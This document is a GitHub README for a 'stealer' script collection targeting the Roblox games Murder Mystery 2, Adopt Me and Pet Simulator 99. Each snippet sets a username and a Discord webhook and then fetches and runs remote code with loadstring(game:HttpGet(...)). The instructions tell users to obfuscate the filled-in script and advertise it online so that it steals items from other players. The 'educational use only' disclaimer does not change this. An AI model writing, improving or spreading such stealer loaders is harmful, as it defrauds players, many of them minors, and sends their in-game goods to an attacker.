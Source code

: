 # Star Script's 💫

Welcome to the K4F7's Personal Stealer Scripts Repository on GitHub. This collection features scripts for popular Roblox games such as Murder Mystery 2, Adopt Me, and Pet Simulator 99.

## Disclaimer ✅
Please use these scripts responsibly and in accordance with Roblox's terms of service. Unauthorized use of scripts may result in account suspension or banning. Note that I am not responsible for any use with these scripts as these are educational use only. Thanks!

## Features 🌠
- **Game Compatibility**: Scripts available for various popular Roblox games.
- **User-Friendly**: Easy to integrate and use within your Roblox experience.
- **Regular Updates**: Scripts are maintained and updated to ensure compatibility with game changes.

## Available Scripts ☄️
- **Murder Mystery 2** 🔪
- **Adopt Me** 🐕
- **Pet Simulator 99** 🐈

## Scripts 📚
**Adopt Me** 😺
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("adopt",true))()
```
**Murder Mystery 2** 🔫
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("murder",true))()
```
**Pet Simulator 99** 🐶
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("pet",true))()
```

## Installation Instructions 📩
1. Find the script you want to steal items from players on.
2. Fill out necessary imformation.
3. Obfuscate the full script with the information.
4. Copy the obfuscated script and advertise it online.

## Contribution 💁
Contributions are welcome! If you have scripts to add or improvements to suggest, please submit a pull request.

## Support 🙌
For any questions or issues, please open an issue in the repository or refer to the documentation provided with each script.
